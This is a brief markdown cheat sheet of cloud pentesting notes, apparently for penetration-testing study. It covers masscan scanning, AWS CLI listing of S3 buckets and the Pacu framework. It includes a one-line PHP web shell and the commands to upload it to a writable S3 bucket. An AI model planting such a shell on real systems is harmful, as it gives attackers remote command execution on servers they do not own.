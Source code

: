 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud    
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
## AWS     
AWS GuardDuty for security.     
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework   
Commands         

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls bucket.site.com    #list contents of a bucket    
    aws --endpoint=http://s3.site.com s3 ls      
    aws --endpoint=http://s3.site.com s3 ls s3://site.com   #list objects and common prefixes   
  
might be able to upload a php web shell      

    echo '<?php system($_GET["cmd"]); ?>' > shell.php   #make web shell file   
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com    

    
Resources      

    https://www.hackthebox.com/blog/aws-pentesting-guide    
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         

## Google Cloud   
GCP Cloud Armor for security.   
